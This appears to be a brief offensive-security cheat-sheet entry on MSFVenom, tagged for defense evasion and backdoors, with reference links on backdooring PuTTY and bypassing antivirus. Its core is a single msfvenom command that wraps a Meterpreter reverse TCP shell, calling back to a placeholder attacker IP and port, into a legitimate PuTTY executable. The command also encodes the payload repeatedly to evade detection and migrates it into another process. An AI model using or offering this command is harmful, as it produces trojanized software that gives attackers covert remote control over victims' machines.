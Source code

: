 # 02 - MSFVenom

Search Tag(s): #defense-evasion #backdoor

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> exitfunc=thread prependmigrate=true prependmigrateproc=<process.exe> -e x64/xor_dynamic -i 10 -k -x putty_x64.exe -o backdoored_putty_x64.exe`

---
## References

- [Backdooring Putty](https://fluidattacks.com/blog/backdooring-putty/)

- [Patching Windows Executable with the Backdoor](https://www.slideshare.net/midnite_runr/patching-windows-executables-with-the-backdoor-factory)

- [RoseSecurity: Bypass AV Payload Detection](https://github.com/RoseSecurity/Anti-Virus-Evading-Payloads/blob/main/Bypass-AV-Payload-Detection.md)